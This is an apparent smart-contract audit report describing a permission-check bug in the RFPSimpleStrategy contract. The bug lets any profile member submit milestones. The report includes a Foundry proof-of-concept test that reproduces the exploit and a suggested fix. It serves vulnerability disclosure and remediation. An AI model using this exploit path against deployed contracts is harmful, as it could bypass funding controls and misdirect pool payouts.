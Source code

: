 Passive Clay Cougar

high

# Any registered profile member can submit for upcoming milestone in the RFPSimplyStrategy contract
## Summary

Due to the incorrect boolean operation, a user can be the acceptedRecipientId OR a profile member to submit an upcoming milestone.

## Vulnerability Detail

The acceptedRecipientId is designated by the _allocate function of the RFPSimpleStrategy contract and is used when assessing if a user has the necessary privileges to submit an upcoming milestone through the `submitUpcomingMilestone` function. Only the pool manager has the authority to grant such a role through the `onlyPoolManager` modifier on the `_allocate` function however, because of an incorrect boolean operation, a user can simply be a profile member in order to submit a new milestone where as in the function natspec, both roles are supposed to be required.

```solidity

/// @dev 'msg.sender' must be the 'acceptedRecipientId' and must be a member
///      of a 'Profile' to sumbit a milestone. Emits a 'MilestonesSubmitted()' event.

```

## Impact

A user can trigger the bug by submitting the upcoming milestone without having the authority to do so thus breaking function invariants. The proof of concept below outlines this scenario which can be pasted at the foot of `RFPSimpleStrategy.t.sol` :

```solidity
 		address attacker = vm.addr(9);

    function testMaliciousMilestone() public {

        address sender = recipient();
        Metadata memory metadata = Metadata({protocol: 1, pointer: "metadata"});

        bytes memory data = abi.encode(recipientAddress(), false, 1e18, metadata);

        vm.prank(address(allo()));
        address recipientId = strategy.registerRecipient(data, sender);

        // Setup attacker as only profile member - NOT ACCEPTED RECIPIENT ADDRESS
        address[] memory addMod = new address[](1);
        addMod[0] = attacker;
        
        bytes32 anchor = registry().anchorToProfileId(address(strategy.acceptedRecipientId()));
        (, , , , address profileOwner, ) = registry().profilesById(anchor);

        vm.prank(profileOwner);
        registry().addMembers(anchor, addMod);

        // Start scenario
        RFPSimpleStrategy.Milestone[] memory milestones = new RFPSimpleStrategy.Milestone[](2);
        RFPSimpleStrategy.Milestone memory milestone = RFPSimpleStrategy.Milestone({
            metadata: Metadata({protocol: 1, pointer: "metadata"}),
            amountPercentage: 7e17,
            milestoneStatus: IStrategy.Status.Pending
        });
        RFPSimpleStrategy.Milestone memory milestone2 = RFPSimpleStrategy.Milestone({
            metadata: Metadata({protocol: 1, pointer: "metadata"}),
            amountPercentage: 3e17,
            milestoneStatus: IStrategy.Status.Pending
        });

        milestones[0] = milestone;
        milestones[1] = milestone2;

        vm.prank(address(pool_admin()));
        strategy.setMilestones(milestones);

        vm.prank(address(allo()));
        strategy.allocate(abi.encode(recipientId), address(pool_admin()));

        vm.prank(recipient());
        strategy.submitUpcomingMilestone(Metadata({protocol: 1, pointer: "metadata"}));

        vm.deal(pool_admin(), 1e19);

        vm.prank(pool_admin());
        allo().fundPool{value: 1e19}(poolId, 1e19);

        registry().createProfile(1, "attacker", Metadata({protocol: 1, pointer: "metadata"}), address(attacker), new address[](0) );
        vm.prank(attacker);
        strategy.submitUpcomingMilestone(Metadata({protocol: 2, pointer: "testmetadata"}));
        

    }
```

## Code Snippet

https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L255-L257

## Tool used

Manual Review

## Recommendation

I recommend refactoring the permissions check to use an `or` operator as opposed to an `and`. This would look like the following:

```solidity
if (acceptedRecipientId != msg.sender || !_isProfileMember(acceptedRecipientId, msg.sender)) { 
	revert UNAUTHORIZED();
}
```